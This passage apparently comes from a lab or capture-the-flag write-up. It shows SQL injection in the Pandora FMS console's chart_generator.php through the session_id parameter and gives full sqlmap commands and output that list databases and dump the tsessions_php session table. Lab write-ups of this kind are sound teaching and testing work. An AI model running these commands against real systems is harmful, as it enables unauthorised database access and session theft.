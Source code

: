 
So, here is the sql query statement `sprintf('SELECT %s FROM %s %s', $fields, $table, $filter)`

And  here's how it looks like, when it get executed

* `fields` == `*`
* `table` == `tsessions_php`
* `filter` == `id_session` == `phpsessionid` == `session_id`

```sql
SELECT * FROM tsessions_php WHERE id_session=session_id
```

### SQLMAP

We have enough information, Time to run sqlmap
```bash
sqlmap --url "http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=" --batch --dbms=mysql --proxy 'socks5://127.0.0.1:4141'
```

![](screenshots/sqlmap-injections.png)

```bash
sqlmap --url "http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=" --batch --dbms=mysql --proxy 'socks5://127.0.0.1:4141' --technique=E --dbs
... [snip] ...
[18:13:19] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (eoan or focal)
web application technology: PHP, Apache 2.4.41
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[18:13:19] [INFO] fetching database names
[18:13:20] [INFO] retrieved: 'information_schema'
[18:13:21] [INFO] retrieved: 'pandora'
available databases [2]:
[*] information_schema
[*] pandora
```

```bash
sqlmap --url "http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=" --batch --dbms=mysql --proxy 'socks5://127.0.0.1:4141' --technique=E -D pandora -T tsessions_php --dump
```

![](screenshots/sqlmap-tsessions_php-dump.png)
